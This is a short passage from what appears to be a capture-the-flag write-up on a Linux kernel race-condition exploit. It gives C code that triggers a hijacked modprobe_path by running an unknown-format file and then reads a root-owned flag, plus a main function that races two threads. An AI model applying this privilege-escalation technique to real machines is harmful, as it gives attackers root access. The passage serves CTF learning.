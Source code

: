 while the `exec_modprobe()` will just try to execute modprobe and check if the is now exists

```c
void exec_modprobe() {
    puts("[*] Run unknown file");
    system("/tmp/dummy");

    if (open("/tmp/flag", O_RDONLY) > 0) {
        puts("[+] Success!");
        success = 0x1;
    } else {
        puts("[-] Failed!");
        return;
    }

    puts("[+] readflag");
    system("cat /tmp/flag");

    exit(0);
}
```

lastly, fired up the threads and hope you'll win the race

```c
int main(int argc, char *argv[]){
    // ... snippet

    pthread_t t_visit;
    pthread_t t_switch;

    pthread_create(&t_visit, NULL, visit, NULL); 
    pthread_create(&t_switch, NULL, switcher, NULL);

    pthread_join(t_visit, NULL);
    pthread_join(t_switch, NULL);

    return 0;
}
```
